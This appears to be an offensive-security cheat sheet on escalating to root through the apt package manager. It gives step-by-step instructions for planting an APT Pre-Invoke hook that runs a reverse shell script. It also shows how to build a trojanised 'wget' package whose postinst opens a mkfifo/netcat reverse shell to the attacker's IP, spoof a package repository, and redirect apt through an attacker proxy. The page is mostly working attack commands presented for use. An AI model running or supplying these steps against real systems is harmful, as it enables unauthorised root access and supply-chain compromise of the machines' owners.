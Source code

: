 ## Requirements: Possibly a crontab that runs apt as root or the user can run apt/apt-get runs as root with sudo

### Steps:

#### 1) APT::Update::Pre-Invoke {"/bin/bash /tmp/pwn.sh"} (Create a malicious config file (pwnapt) that calls your reverse shell script)

#### 2) Create a reverse shell file (pwn.sh)

#### 3) Upload the config file to the /etc/apt/apt.conf.d/00pwn via any method you can (FTP,tftp,etc)

#### 4) Setup listener

#### 5) GG!

### BONUS!

### Apt configuration files directory: /etc/apt/sources.list.d/ (Check for any files that might contain places that are package repositories for the package manager to pull from)

## Setting up a malicious repository

### Requirements: Trace down where the apt manager of the target machine installs its packages from by checking out the /etc/apt/sources.list/ directory. Also choose a package which is already present on the target machine (wget for example).

### Steps:

#### 1) mkdir build

#### 2) mkdir -p wget/DEBIAN

#### 3) nano/vim wget/DEBIAN/control (Create the control file with the metadata)

##### Package: wget

##### Architecture: all

##### Maintainer: @WHATEVER

##### Priority: optional

##### Version: 5.0

##### Description: GGEZ!

#### 4) mkdir -p wget/usr/bin

#### 5) nano/vim wget/usr/bin/wget (Make a dummy binary)

##### #!/bin/bash

##### echo "Whatever"

#### 6) chmod 700 wget/usr/bin/mypackage

#### 7) nano/vim wget/DEBIAN/postinst (Create the malicious script)

##### #!/bin/bash

##### rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc OUR_IP PORT

#### 8) chmod 755 wget/DEBIAN/postinst

#### 9) dpkg-deb --build wget/ (Package it)

#### 10) Create a file named "Packages" with the contents:

##### Package: wget

##### Version: 5.0

##### Maintainer: WHATEVER

##### Architecture: all

##### Description: Pwnie package

##### Multi-Arch: foreign

##### Filename: pwn/wget.deb

##### Size: 800

##### MD5sum: e5c858d924abbe4effcd1fe1ca4eb21a

##### SHA1: 6822716507fe71737c635995f3f8f049d8b3cdf9

##### SHA256: 76a31c4e20bf4530027004bf7794b9c7993960d51933ce772b1594d4fc74aca5

### (You can gain the hashes for the .deb file with the md5sum, sha256sum and sha1sum respectively and the size can be gained with ls -la)

#### 11) Finish the setup using gzip

#### 12) Create the directories by replicating the repository we want to spoof with the purpose of the target apt manager downloads the package from our repository instead. Place your package in the right folder according to use case. 

#### 13) Run sudo apt-get update and sudo apt-get upgrade on target machine to download our malicious packages file.

##### TIP: In sudo configurations (sudo -l) if the http_proxy environment variable is kept while the command is executed as root, before doing the required setup, we can also do: export http_proxy="http://OUR_PROXY:8000" (The proxy is the one we open if we detect this env variable to force the package manager to use our repository)

#### 14) If the package has been downloaded, press yes to install it

#### 15) GG!
